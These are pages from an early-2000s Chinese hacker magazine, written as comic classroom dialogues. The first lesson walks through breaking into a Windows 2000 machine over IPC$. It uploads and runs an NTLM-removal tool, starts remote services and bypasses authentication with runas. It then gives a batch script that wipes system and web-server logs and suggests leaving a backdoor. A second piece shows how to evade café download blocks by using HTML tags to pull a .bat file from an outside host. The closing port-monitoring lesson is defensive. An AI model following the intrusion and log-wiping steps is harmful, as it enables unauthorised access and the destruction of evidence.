**凤飘**：我说过了，以你的智商，无法向你解释什么……算了，知道你们这些×××是不会深入研究理论的，我还是说说 NTLM 在宏观上的表现吧！其实，NTLM 是以当前用户的身份向 Telnet 服务器发送登录请求的，所以你根本就没有机会用你扫到的对方管理员的帐户和密码进行登录，要想进一步深入对方系统，就要想办法去掉或者绕过 NTLM 验证！

**学生 A**：怎么去掉对方 NTLM 验证呢？

**凤飘**：方法很多，像常用到的 NTLM.exe，直接把它上传到对方然后运行就行了。

**学生 A**：已经建立了 IPC$，就用 copy 命令来上传吧？

**凤飘**：对，我们就可以用 copy，通过扫描结果知道对方开着默认共享，我们就把 NTLM.exe 拷贝上去。

**PLMM**：老师，上节课你不是说可以用 `net view` 查看对方共享吗？我刚才看了看，它怎么说“列表是空的”？不是有默认共享吗？

**凤飘**：默认共享是看不到的！但它确实存在，现在你们就把 NTLM.exe 复制过去吧！然后用 at 命令运行。

**学生 A**：我用了，怎么是“接口未知”？

**凤飘**：可能是对方的 Task Scheduler 服务没有启动，也就是计划任务，这样我们就不能使用 at 命令了。不少同学遇到这种情况不知道该怎么做了（学生：废话！你也没讲过），那我们就来把对方的 Task Scheduler 服务打开！

**学生 Y**：这个我知道，用 `net start` 命令！

**凤飘**：`net start` 是不能管理别人的服务的，但我们已经建立了一个 IPC$，就用微软为我们准备的服务管理器吧（管理工具—服务）！它有一个很有用的功能……可以连接管理远程计算机。我们在本地服务上点右键，选择“连接到另一台计算机”（图 8），在打开的窗口中填入目标 IP 点“确定”，不一会儿就连上了。现在你就能直接控制对方的服务了，Task Scheduler 服务被禁止了（图 9）。我们在“属性”中把启动方式改为自动，然后再启动服务，同样就可打开 telnet 服务，呵呵！现在用 at 运行 NTLM.exe 吧！


**PLMM**：我运行了，可怎么还连不上呀？

**凤飘**：运行后要把对方的 Telnet 服务重新启动！

**PLMM**：哈哈，连上了！

**凤飘**：另外，开 Telnet 的工具还有不少，如 `opentelnet.exe`，它的用法很简单：

```
OpenTelnet.exe \\服务器地址 管理员用户名 密码 验证方式（填0或1） telnet端口
```

**学生 X**：那如果手头没工具不就 Game over 了？

**凤飘**：当然不！上面讲的是如何去除对方的 NTLM 验证，如果无法去除，我们还可以绕过对方的 NTLM 验证。同学们仔细

## 小鸡快跑

看看上面讲解的NTLM原理和工作流程，说不定你也能找到绕过的方法。

学生A：系统是使用当前用户的密码散列响应“挑战”，如果当前用户的密码和远程主机的相同，不就可以通过验证了？

风飘：聪明！我们在本机用命令net user添加一个用户，用户名和密码与得到的对方用户的相同，由于Shell继承的是远程主机用户权限，所以把它留在user组就可以。这里还有一个问题，如果对方用户在本机已存在，如Administrator，那么你可千万不要用net user来改密码！这样虽然也能更改用户密码，但这个用户原先经EFS加密过的文件就将永远无法访问了！

正确的方法是按下Ctrl+Alt+Del，在弹出的窗口中选择“更改密码”来更改你的密码！改好后用runas命令运行Telnet连接就可绕过验证。

学生X：runas命令是干吗的？

风飘：它可使你以其他用户的身份来运行某个程序，它的基本用法是：

```
runas /user:<UserName> program
```

然后便会要求你输入用户的密码，验证后程序就会以另一个用户的身份启动。比如现在要用Administrator身份运行telnet，只要用命令runas /user:administrator telnet即可，这样就可以已管理员的身份打开Telnet了（图10）。然后用open 192.168.1.3链接就行了。



学生A：哈哈，这样还真连上了，看我格了他的硬盘！

风飘：STOP！找打呀你，敢格我的硬盘。现在拿到了Shell，这次入侵基本上就算是完成了。

学生N：好像还有清除日志吧！

学生Y：日志？似乎听过。

风飘老师：我倒！在学习入侵之前，至少要了解各自使用的系统！Win2K的日志简单说就是监视记录各类系统事件。你在入侵时若被记录了，被管理员看到就准备棺材吧！

风飘：所以在最后我们要擦脚印，即清除日志。系统自带的日志大多是在system32目录下，扩展名多为.log，我们用Del将它们删除就可以了。为了方便，还是写个批处理吧，还记得copy con吗？现在就用了，在对方的C:\下建立一个名为del.bat的文件：copy con c:\del.bat，然后运行就可以清楚所有日志了。内容如下：

```
net stop w3svc
kill -f event.log
del c:\winnt\system32\logfiles\w3svc1\*.* /f /q
del c:\winnt\system32\logfiles\w3svc2\*.* /f /q
del c:\winnt\system32\logfiles\*.*
del c:\winnt\system32\config\*.event /f /q
del c:\winnt\system32\dtclog\*.* /f /q
del c:\winnt\system32\*.log
del c:\winnt\system32\*.txt
del c:\winnt\*.txt /f /q
del c:\winnt\*.log /f /q
```

```
net start w3svc
del c:\del.bat /f /q
```

风飘：还觉的麻烦？给你个工具吧——clear.bat，原先是红衣刺客写的一个清除日志的东东，原先有几个错误，我已经修改了，正适合你们用。同类工具也有很多，自己找找也可以。

PLMM：哈哈，这样就不会被警察叔叔知道了……

风飘：其实也不能这么说，这样删除的是所有的日志，管理员打开事件查看器什么也看不到，自然就知道被人侵了。所以，这样做并不能隐藏你的人侵痕迹，而是让对方无法确认入侵者是谁（IP）。但如果对方使用了第三方软件或启用了其他日志，再根据新的系统日志生成的时间，会更容易把人侵者揪出来！所以清除了日志并不等于万事大吉。

学生A：没有绝对安全的主机，同样也没有绝对安全的人侵啊……

风飘：其实好一点儿的方法也不是没有，当与对方建立了IPC$后，我们可打开自己的事件查看器，用同样的方法连接到对方，这样就能看到对方的日志了，然后将与自已有关的信息删掉。如果你没在上面做过什么亏心事，日志留着也无妨。好了，清除日志走人……

PLMM：就这么走了？好不容易弄到的小鸡，就这么轻易的丢掉？

风飘：谁说不要丢？最后在走之前，我们给他留个后门，以便以后出入方便。

学生N：后门？就是给它装上个木马吧？

风飘：也不会对，木马只是一种手段，其他类型的程序和方法也有很多，简单的方法就是直接在肉鸡上添加一个管理员帐户，不过现在已经没人这么白痴了。

学生Y：这还不简单，找个木马放上去运行不就行了。我也会！

风飘：可没那么简单！使用木马也是一种学问。我们要根据对方的主机情况和你的目的选择适当的木马，否则容易被发现不说，有时还可能暴露自己的信息，那可就死翘翘了！

PLMM：那要怎样选择呢？老师教教我呀！

（潜水艇：给你留了这么多版面，你就知足吧！！）

风飘：是是，严重支持潜水大哥！今天就讲到这儿了。

学生Y：老师，木马什么时间讲呀？

风飘：我看看…下节课讲溢出，再下节讲口令破解，再下节……

PLMM：好哥哥！讲木马嘛（假装可怜状，以骗取同情心~~）！

风飘：嗯嗯…这个…回家睡觉啦，（狂叫）出租车！

学生A：老师这次怎么改乘车了？

风飘：潜水艇那小气鬼这次死活也不肯借给我钢丝用了……

学生狂倒ing……

（本文涉及的如下工具光盘中有收录：三个清除日志的工具、OpenTelnet（用来启动远程服务端的Telnet）、ResumeTelnet（用来恢复Telnet配置并关闭Telnet服务端）、OpenTelnet V1.01（完全批处理写的远程开启Telnet服务的工具，默认端口为8300）。）

# 《黑客X档案2003-2004年合订本下册》


## 小鸡快跑

### 下载篇

在一个没有太阳、月亮、星星的夜晚，菜鸟猫和网管在网吧内不期而遇，他们是天生的死敌，心中都盘算着如何打倒对方。

网管大声吼道：菜鸟猫你来干什么，你常用的那些伎俩早已被我识破，我已经做了一级防御，连文件都下载不了啦，还是退回去吧！

“退？在我菜鸟猫的字典里从来没有这个字，不就是限制了下载吗？今天我就下给你看。”

于是，一场由菜鸟猫发动的网管反击战就此展开……

### 一、QQ 篇

网管：TE（腾讯浏览器）已经让我用 IE 替换了，QQ 文件传输所要用到的控件也让我用 exescope 删除了，看你能玩出什么鬼！

菜鸟猫：真是不长见识，你的网吧已经安装了新版本的 QQ，上面推出了很多新功能。看我 QQ 七十三变——共享文件。只要点击 QQ 面板的“菜单→工具→共享文件”，就可下载好友为我们准备的文件了（图 1）。呵呵！简单吧！


图 1

网管：你得意什么？要是你 QQ 里的黑友不在线，共享文件功能就是废物一个。

菜鸟猫：你高兴什么？看我 QQ 七十四变——QQ 邮箱。QQ 邮箱出来已经时间不短了，原来只有 QQ 会员可以使用，使用面较窄。但从 2003 年 12 月开始，QQ 就推出了邮箱新功能，可以对外发送和接收邮件，这样一来，我等非会员菜鸟也可享用了。

菜鸟猫：先进入我 163 的 web 邮箱——tth-520@163.com。选择一封附件中装有网络快车的邮件，然后发送到我的 QQ 邮箱。我的 QQ 号码是 78941849，那么我的邮件地址就是 78941849@qq.com。发送时间不过三秒钟，弹指一挥间，接收只需点击 QQ 面板的“菜单→工具→QQ 邮箱→远程管理”（图 2），就把邮件下载下来了。下载速度也非常快，绝对超过网络蚂蚁。打开附件里的网络快车安装后，破解下载的问题就彻底解决了。


图 2

网管：算你狡猾，这都让你想到了，不过我更阴险。谢谢你告诉我，等下我就用 exescope 把这两个功能要用到的控件删了。

菜鸟猫：那 QQ 会员你也不让他们用 QQ 邮箱吗？人家可是交了一个月十元的会员费呀！

网管：从来就只有我负顾客，怎么可能让顾客负我。

菜鸟猫：卑鄙！算了，我不用这个方法了，你还是给人家会员留条活路吧！15MB 的邮箱也不小，不能白白浪费啊！

### 二、Dreamweaver 篇

菜鸟猫：网页三剑客之一的 Dreamweaver 你总装了吧？

网管：装了，怎么啦？

菜鸟猫：你看着。有了它，文件的新建、删除、改名、上传、下载可以说是无所不能。只要一个支持 FTP 的主页空间就可以了，幸好 www.533.net 可以申请到 10MB 的免费空间，而我就正好有一个。打开 Dreamweaver，点击“站点→新建站点→web 服务器信息→在服务器访问项选择 ftp→填写 ftp 服务器的信息”（图 3）。

填写完后，点击“确定→建立”。在建立站点之后就可以连接远程主机了，点击“查看→远端刷新”，就可把事先放在 FTP 服务器上的文件下载回来了，另外也可上传文件（图 4）。在右边的本地站点里，可以对文件进行任何操作了。怎么样？你的限制是不是不堪一击呢？网吧里很多顾客可都是有自己的主页哦，你不会把 Dreamweaver 也删了吧？那样的话，你的网吧也就没有几个人来了。



图 3


图 4

网管：（一脸无奈的神情）哎！让你钻空子，有本事就不要用 Dreamweaver 来破解禁止下载的限制！

菜鸟：不用就不用，怕你不成，拿 IE 来。

### 三、IE 篇

网管：菜鸟猫这次你真的失算了，IE 是我花心思最多的东西了，我已经把 IE 打造成了“堡垒 IE”。为了对付破解网站者，我在 IE 的 Internet 选项中禁用了除“对标记为可安全执行脚本的 activex 控件执行脚本”以外的所有 activex 脚本，将“受信任的根证书颁布机构”里面的“verising commercial software publishers ca 证书”删除，并将 Windows 目录下的 Tegosoftsmart loader activex control 控件也删除了。够狠吧！另外，为了对付网页木马，我把 IE 升级到了 6.0，加上对 activex 控件的禁用，就完全扫除了：

- 利用 MIME 漏洞的网页木马；
- 利用 com.ms.activex.activex component 漏洞并结合 WSH 及 FSO 控件的网页木马。
- 利用 object 对象类型确认漏洞（object date remote）并结合 WSH 及 FSO 控件的网页木马。

怎么样？知道我的厉害了吧？菜鸟猫你还是回去吧！连网页木马都让我征服了，我的堡垒 IE 你是突破不了的。


## 小鸡快跑

菜鸟猫：放P，照你的做法，网友连语音聊天室网站都进不去了。你真自私，终于看清楚你的真面目。因为我是为了自由、平等、随意、突破的精神而战，所以你必败！让我们来看看吧，我不利用任何漏洞就可打垮你的堡垒IE，看我的“IE超文本下载”：

- 利用img标签，代码如下：
``
- 利用SCRIPT标签，代码如下：
`<SCRIPT language="浩天 " src="http://ruyun.html.533.net/d2.bat"></SCRIPT>`
- 利用LINK标签，代码如下：
`<LINK href="http://ruyun.html.533.net/d2.bat" type="text/css" rel="stylesheet">`

把代码放在<head></head>中间。使用上面任何一种方法都可把d2.bat下载下来，而且适合所有IE版本。下载后的文件保存在IE临时目录（Temporary Internet Files）下的子目录中。

网管：这是我最后一道封锁线了，没想到也让你破解了。

菜鸟猫：哈哈！你知道怕了吧！把眼睛睁大了，看我是怎样使用超文本下载的。就用img标签吧，看到了吗？IE已经把d2.bat当作图片下载回来了（图5）。因为它不是图片文件，所以在IE上不能显示，看到的是一个红叉。现在只要在上面单击右键，把它复制到任何一个目录就可以了。昏！怎么复制不可以用？


网管：这下该我笑了，不能复制是不是？我已经把这个功能禁止了，这下没辙了吧！

菜鸟猫：早知道你会来这手，我已经做好准备了，现在就去临时目录Temporary Internet Files的子目录下去找我Down的文件。

网管：想进入我隐藏的系统盘？没门！实话告诉你，我已经把新建文件禁用了，你又想新建bat文件，使用dos命令start c:\来打开我的系统盘啊！

菜鸟猫：呵呵！你这样的限制我闭着眼睛都可以破解。当年我在鹰盟鬼混时，皮鲁老大给过一段代码，是打开本地硬盘的，都用了一年了，从来没有失败过。我已经把它写成了html文件，上传到了我的主页空间（图6），这样就可以破解了。进入IE的临时文件夹Temporary Internet Files，因为这里的文件是不可以直接运行的，所以一定要把它复制出来。既然不可以用右键复制，那就用Winzip来帮忙吧！直接把存放IE临时文件的目录添加至Winzip，然后把我下载的文件任选一个目录解压缩，文件就被复制成功了！再大声的笑一笑吧！哈哈哈哈哈哈！


网管：我的堡垒IE都让你破解了，我也不想活了，5555……

菜鸟猫：不要有轻生的念头啊！乖，去把头剃了，去X档案取点真经回来再和我斗吧！

在一个没有太阳、月亮、星星的夜晚，网吧的战争由菜鸟猫反击取胜而结束，下期请大家继续收看，网管取经归来后的又一战——“菜鸟猫的反击——双节棍”，绝对精彩！

（文中所提到的打开本地硬盘的代码请到http://www.thai.net/betty000/test.html查看。光盘中的压缩包除了收录有破解磁盘限制的html外，还有SCRIPT和LINK标签下载演示页面和img标签下载文件演示页面。）

## 小鸡快跑情景剧系列 之 客房服务生 飞叶

主讲：小草

### 小鸡开讲

昏暗灯光，草草扯了扯漂亮的破衣服，走上讲台：各位小鸡半夜好，还记得偶吗？偶就是传说中的那条草草虫！

同学A 举牌：不认识（讲台上，草草强忍着落寞的沮丧）。

草草：偶今天本来要给大家讲如何网上追击入侵者，既然不识俺，走了，伤自尊了……（草草虫收拾东西欲转身离去）

旁听老师黄色潜水艇：关门放狗（草草马上回头，挤出久违的灿烂）！

草草：黄老师，开个玩笑嘛，偶继续给大家讲课。话归正传，对一个小菜来说，除了需要具备网络基础知识和TCP/IP知识外，最重要的一点是：要学会利用计算机的自动化处理来防护和追踪黑客。下面偶分两个课时给大家讲，中间大家可课间休息十分钟。

### 第一堂课——端口的监视

草草：偶先从端口的监视开讲。

同学H：端口监视我也会，netstat.exe不就可以搞定吗？

草草：H 同学说得好，鼓励！简单的说，端口监视其实就是监视网络的连接，发现非法连接就预示着系统可能被人侵了。最常用的网络工具为netstat.exe，

> 注释：netstat.exe为windows系统里面自带的端口连接查看工具，除了98外，netstat.exe还增加了许多附加的网络探测功能，比如：路由探测等等。总的来说，功能一般。

我们用netstat -an -p tcp 后就可看

黑客X档案2003 2004年合订本(下册)

## 小鸡快跑

到很多关于计算机网络的连接。大家请看幻灯（图1）：



一旦发现一个可疑连接，多半已经中了木马或者系统被黑了，那么问题也就来了：网管不可能24小时都守护在服务器旁边对服务器进行netstat吧！

同学：我知道，我用bat的处理方式来保存文件内容：```c:\>netstat -an -p tcp 10>>c:\connect.txt```。这样，每间10秒就会在C：\下生成关于计算机连接的log文件。

章草：这很好，但会出现另一个问题。我测试过，在一个服务器访问量不是很大的情况下，我以30秒的方式来记录，结果第二天这个文件就增长到了4M多。长期监视下去，黑客不仅没逮着，倒使服务器可能产生许多垃圾信息。

> 注释：Bat处理方式其实就是最早的DOS下面的批处理文件，到了Windows NT时代，微软提倡使用扩展名cmd来代替bat文件。Bat文件的作用就是使一些程序连贯的执行。

### 对上一种方式的小结：

- 服务器重启后这样的方式显然不行。
- 服务器连接频繁与否都会产生很大的信息量，手工搜索麻烦，还浪费空间。

同学：说的也是，那我该怎么办呢？

章草：别急！微软公司开发了一个小巧实用的工具——Port Reporter。简单点说，我们可把它安装成一个服务，它的作用是可以随时记录计算机上任何端口的断开和连接情况。更强大的是，它还可以记录下面的东西：

- 所使用的端口
- 使用端口的进程
- 进程是否为一项服务
- 进程已加载的模块
- 运行进程的用户账户

通过Port Reporter你可随时监视计算机的连接情况，帮你排除一些网络问题。对黑客的追踪也不错哟！

同学：能给我讲讲具体的使用方法和步骤吗？

章草：好，看下面的步骤！

#### 1.安装Port Reporter

首先我们把PortRptr.exe解到一个文件夹里，然后运行pr-setup.exe把这个东西安装进去。
（注：“；”后面的语句为注释，后面雷同）

```
C:\temp>pr-setup.exe -d c:\temp\tg
; 开始把软件安装到c:\temp\tg这个目录里面
Installing Port Reporter c:\temp\tg
; 创建服务，成功！
Creating service...completed successfully
; 开始为安装程序写注册表
Creating registry key and values...completed successfully
; 到这里，服务就安装完毕了，恭喜！
Setup has successfully installed the Port Reporter service
The service is currently stopped and set to manual startup type
; 现在就可以到“服务”页面对它进行配置了
Please use the services applet in the control panel to configure and start the Port Reporter service
press any key to exit setup.
```

#### 2.初始化Port Reporter

现在东西安装完了，我们转到控制面板的“服务”，看到服务已经成功安装好。现在，我们再给它传递几个参数，然后启动就OK了，如图2。

其中，图2里“启动参数”的“-ld”代表把日志生成到d:\log下，“-ls”表示每1M就生成一个文件。



> 章草提示：你可以把d:\log这个文件夹的acl改为只有administrator才可以访问。

#### 3.检验我们的Port Reporter

下面是PR-PORTS日志文件内容的示例：

```
Port Reporter Version 1.0 Log File -
Port usage log
Check PR-PIDS-04-01-24-8-49-30.log
for corresponding process data
```

```
Log format:
; 这里是Port Reporter报告的日志文件结构，从左到右依次为：日期、时间、协议、本地端口、本地IP、远程端口、远程IP、端口的进程号，模块、登录用户
date,time,protocol,local port,local IP address,remote port,remote IP address,PID,module,user context

04/6/18,8:52:21,TCP,4873,0.0.0.0,45070,0.0.0.0,664,iexplore.exe,<MYDOMAIN\user>
04/6/18,8:52:21,TCP,4873,169.254.66.8,80,63.208.107.43,664,iexplore.exe,<MYDOMAIN\user>

04/6/18,8:52:22,UDP,55441,169.254.66.8,*:*,3764,msmsgs.exe,<MYDOMAIN\user>
04/6/18,8:52:22,TCP,4874,0.0.0.0,4225,0.0.0.0,664,iexplore.exe,<MYDOMAIN\user>
04/6/18,8:52:41,TCP,4874,169.254.66.8,80,216.74.132.12,664,iexplore.exe,<MYDOMAIN\user>
; 解释一下这个：这个表示在2004-6-24早上6：52分有人用user帐号访问216.74.132.12这个http服务器
4/6/18,21:36:2,TCP,2682,169.254.66.8,445,169.254.133.55,4,System,
04/6/18,21:51:2,TCP,2684,0.0.0.0,0.0.0.0,0,System,
04/6/18,21:51:2,TCP,2684,169.254.66.8,445,169.254.133.55,4,System,
04/6/18,22:03:15,UDP,2686,0.0.0.0,*:*,2424,Virtual PC.exe,<MYDOMAIN\user>
04/6/18,22:03:15,UDP,2687,0.0.0.0,*:*,2424,Virtual PC.exe,<MYDOMAIN\user>
04/6/18,22:03:43,UDP,2688,0.0.0.0,*:*,2424,Virtual PC.exe,<MYDOMAIN\user>
04/6/18,22:04:9,TCP,2690,169.254.66.8,389,169.254.133.55,0,System,Idle,
```

而PR-PIDS日志文件包含有关端口、进程、相关模块和运行进程所用用户帐户的详细信息。下面是PR-PIDS日志文件内容的示例：

```
Port Reporter Version 1.0 Log File
Process detail log
System Date:Sat Jan 24 08:49:31 2004
Local computer name:
<ComputerName>
==========================
; 这里面记录的东西才叫专业啊！计算机每时每刻的端口动向全部被该软件锁定得很清楚
Log entry below recorded at:<Date and Time>

==========================

Process ID:664 (iexplore.exe)

User context:MYDOMAIN\user
; 这里指出iexplore.exe不是一个服务进程，而下面的连接就是这个IE所产生的连接信息。什么进程什么端口分得很开
Process doesn't appear to be a service

PID Port Local IP State Remote IP:Port
664 TCP 4867 0.0.0.0 LISTENING 0.0.0.0:4225
664 TCP 4873 0.0.0.0 LISTENING 0.0.0.0:45070
664 TCP 4867 169.254.66.8 ESTABLISHED 169.254.44.132:80
664 TCP 4873 169.254.66.8 SYN_SENT
```


## 小鸡快跑

169.254.44.12:80, 664 UDP 4817 127.0.0.1

```
Port Statistics
TCP MAPPINGS: 4
UDP MAPPINGS: 1
这里程序对这次连接做出了总结: listening
为50%, SYN Sent为25%,
TCP ports in a LISTENING state: 2 = 50.00%
TCP ports in a SYN_SENT state: 1 = 25.00%
TCP ports in a ESTABLISHED state: 1 = 25.00%

：总结了这次连接探测所用到的模块:注入线程
的应该模块是:
Loaded modules:
D:\Program Files\Internet Explorer\iexplore.exe (0x00400000)
D:\WINDOWS\System32\ntdll.dll (0x7F50000)
D:\WINDOWS\system32\kernel32.dll (0x7E60000)
D:\WINDOWS\system32\mswsock.dll (0x7C7C0000)
D:\WINDOWS\system32\USER32.dll (0x7D400000)
D:\WINDOWS\system32\GDI32.dll (0x7CF00000)
D:\WINDOWS\system32\ADVAPI32.dll (0x77D00000)
```

由于进程数较多，这里就不一一列举完。很简单的工具，生成的文本文件也很小。

同学：有点眉目了，那么port reporter的工作原理是什么呢？

草草：Port Reporter服务跟踪端口的更改，并在日志文件中报告这些更改。这些更改可能包括端口上连接数目的增加或减少，或者现有连接的连接状态更改。当建立到TCP端口的新连接或关闭现有连接时，Port Reporter服务会进行报告。如果一个端口上的任一TCP连接上发生更改，Port Reporter也会报告。TCP端口的状态包括以下几种（表1）：

| Closed | 关闭的TCP端口10 |
| --- | --- |
| Listen | 监听状态的TCP端口 |
| Syn_Sent | 发送同步信号的TCP端口 |
| Syn_Rcvd | 同步信号接收 |
| Estab | 已建立的TCP端口连接 |
| Fin_Wait1 | 等待远程TCP连接中断请求 |
| Fin_Wait2 | 等待远程TCP连接中断请求 |
| Close_Wait | 等待从本地用户发来的连接中断请求 |
| Closing | 等待远程TCP对连接中断的确认 |
| Last_Ack | 等待原来的发向远程TCP的连接中断请求的确认 |
| Time_Wait | 等待足够的时间以确保远程TCP接收到连接中断请求的确认 |
| Delete_TCB | 等待足够的时间以确保远程TCP接收到连接中断请求的确认 |

表 1

当ESTABLISHED状态的连接更改为CLOSE_WAIT状态时，Port Report就会报告这个状态的改变！有时，Port Reporter服务可能会报告“System Idle Process (PID 0)”使用多个TCP端口。当安装在计算机上的程序连接到一个TCP端口，然后迅速从该端口断开连接时，会发生此情况。尽管程序不再运行，但程序和端口之间的TCP连接可能仍保持“Timed Wait”状态。这样就导致了：尽管使用此端口的进程不再运行，但端口仍可能处于“Timed Wait”状态长达数分钟。当安装在计算机上的程序开始使用新的UDP端口时，Port Reporter服务也会创建一个日志项。例如，如果一个程序绑定到UDP端口69，Port Reporter服务会将此操作记录到PR-PORTS和PR-PIDS日志文件中。

Port Reporter服务不会记录发送到UDP端口的UDP数据报。Port Reporter服务仅记录UDP端口被绑定，并且正在接受数据报。Microsoft建议您检查系统事件日志和应用程序事件日志，以找到Port Reporter服务记录的事件。当启动此服务、此服务创建日志文件、此服务停止或此服务遇到错误时，Port Reporter服务将记录事件。

同学A：老师，怎么还不下课，时间到了。
草草：哦，难道偶讲课没有引人入胜吗……

（课间十分钟，本来睡眼惺忪的众同学精神又重新振作起来，同学A提议下堂课整蛊一下草草放兽，不巧被潜水艇听到，黄老师用比刀还犀利的目光直刺同学A：如果你敢用水枪射草草老师，俺就……给你2元……）

# 第二堂课——端口追踪和监视

草草老师迈着轻快的步伐走上讲台：休息好了吗？下面这节课是关键，希望同学们认真做好笔记。

草草：下面将给大家介绍一下PortQry Command Line Port Scanner 2.0，它是留放在管理员旁边的小军刀。

同学：那么厉害？PortQry到底有哪些功能？

草草：PortQry是一个可用于帮助解决TCP/IP连接问题的命令行实用工具。此工具报告本地计算机或远程计算机上目标TCP端口和用户数据报协议（UDP）端口的状态。PortQry 2.0版还提供有关本地计算机端口使用情况的详细信息。

## 1. 端口状态报告

PortQry以下列方式之一报告端口的状态：

- 倾听：此响应指示进程正在倾听目标端口，PortQry收到目标端口的响应。
- 未倾听：此响应指示没有进程在倾听目标端口，PortQry从目标端口收到以下网际消息控制协议。
- ICMP——消息之一：
- Destination unreachable
- Port unreachable
- 筛选：此响应指示正在筛选目标端口，PortQry没有收到目标端口的响应。进程可能正在倾听目标端口，也可能不再倾听目标端口。默认情况下，PortQry在TCP端口返回响应筛选之前对其查询三次，在UDP端口返回响应筛选之前对其查询一次。

## 2. 服务的支持

它支持下面的一些应用和传输协议：

- ◆轻量目录访问协议（LDAP）
- ◆远程过程调用（RPC）
- ◆域名系统（DNS）
- ◆NetBIOS 名称服务
- ◆简单网络管理协议（SNMP）
- ◆Internet Security and Acceleration Server (ISA)
- ◆SQL Server 2000 命名实例
- ◆日常文件传输协议（TFTP）
- ◆第二层隧道协议（L2TP）

## 3. 初级的使用办法

